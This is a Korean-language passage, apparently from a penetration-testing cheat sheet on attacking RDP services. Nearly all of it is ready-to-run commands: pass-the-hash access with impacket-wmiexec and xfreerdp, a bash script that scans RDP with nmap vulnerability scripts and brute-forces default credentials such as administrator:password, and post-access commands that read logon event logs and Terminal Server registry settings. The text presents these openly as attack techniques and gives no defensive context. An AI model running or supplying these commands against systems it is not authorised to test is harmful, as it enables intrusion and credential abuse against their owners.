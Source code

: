 
## 🛠️ 고급 RDP 공격 기법

### 🎭 Pass-the-Hash 공격 (크레덴셜 해시 확보시)

```bash
# impacket을 통한 PTH
impacket-wmiexec -hashes {LM_HASH}:{NTLM_HASH} administrator@{IP}

# 해시로 RDP 접근 (제한적)
# RDP는 일반적으로 평문 패스워드 필요하지만, 일부 도구에서 지원
xfreerdp /u:administrator /pth:{NTLM_HASH} /v:{IP}
```

### 🔍 RDP 정보 수집 자동화

```bash
#!/bin/bash
IP=$1

echo "=== RDP Information Gathering for $IP ==="

# 기본 정보 수집
echo "[+] RDP Service Information:"
nmap -sV -p 3389 $IP

# 암호화 및 NLA 확인
echo "[+] RDP Security Features:"
nmap --script rdp-enum-encryption -p 3389 $IP

# 취약점 확인
echo "[+] RDP Vulnerabilities:"
nmap --script rdp-vuln-* -p 3389 $IP

# 기본 자격증명 테스트
echo "[+] Testing Default Credentials:"
credentials=("administrator:password" "admin:admin" "guest:" "administrator:" "admin:password")
for cred in "${credentials[@]}"; do
    user=$(echo $cred | cut -d: -f1)
    pass=$(echo $cred | cut -d: -f2)
    echo "Testing $user:$pass"
    timeout 10 xfreerdp /u:$user /p:$pass /v:$IP +auth-only 2>/dev/null && echo "SUCCESS: $user:$pass"
done

echo "=== RDP Scan Complete ==="
```

### 📊 RDP 로그 분석 (시스템 접근 후)

```bash
# RDP 연결 로그 확인 (이벤트 뷰어)
wevtutil qe "Microsoft-Windows-TerminalServices-LocalSessionManager/Operational" /f:text /rd:true /c:50

# 로그온 이벤트 확인
wevtutil qe Security /q:"*[System[(EventID=4624)]]" /f:text /c:20

# RDP 설정 확인
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services"
```

---